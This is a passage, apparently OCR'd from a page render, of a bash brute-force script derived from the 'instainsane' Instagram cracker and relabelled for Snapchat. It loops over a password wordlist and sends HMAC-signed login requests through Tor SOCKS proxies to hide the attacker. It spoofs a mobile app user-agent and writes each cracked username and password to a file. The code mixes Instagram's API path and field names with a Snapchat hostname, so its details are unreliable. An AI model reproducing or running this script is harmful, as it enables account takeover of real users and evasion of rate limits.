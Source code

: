 let counter++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass

{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9051 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ > /dev/null 2>&1  ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  > /dev/null 2>&1 ; elif [[ $var == "Please wait" ]]; then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid1=$! ; #;wait $!;

let startline+=20
let endline+=20

done

}


bf2() {

while [ $counter2 -lt $turn ]; do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
IFS=$'\n'
for pass in $(sed -n ''$((startline+sumstart))','$endline'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

let counter2++

printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass

{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9052 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst ; kill -1 $$ > /dev/null 2>&1 ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  > /dev/null 2>&1 ; elif [[ $var == "Please wait" ]]; then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid2=$! ; # wait $!;
